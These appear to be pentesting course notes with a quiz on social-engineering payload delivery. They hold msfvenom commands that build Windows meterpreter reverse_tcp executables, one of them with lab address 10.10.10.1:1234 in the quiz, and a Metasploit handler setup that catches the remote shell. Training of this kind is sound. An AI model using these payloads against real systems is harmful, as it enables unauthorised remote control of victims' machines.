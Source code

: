 - Allows an end user to execute the payload
- Utilize social engineering techniques
- Take advantage of human vulnerabilities 

#### MSFvenom

- Used to generate payloads
- msfencode - used to encode payloads
- Payload will execute and make a connection back to a C2 Server


Run Msfvenom
```
msfvenom
```

list msfvenom payloads
```
msfvenom --list payloads
```

Generate msfvenom payload
```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<local_ip_address> LPORT=<local_port> -f exe > <storage_directory_of_payload>/<payload_name_&_extension>
```

List formats for payloads
```
msfvenom --list formats
```

Setup listener for payload
```
use exploit/multi/handler
payload <payload_chosen>
set LHOST <local_ip_address>
set LPORT <local_port>
exploit
```
## Quiz

Msfvenom can be used to encode payloads

	True

Which one of the following Msfvenom commands can be used to generate an x64 Windows meterpreter payload?

	msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f exe > payload.exe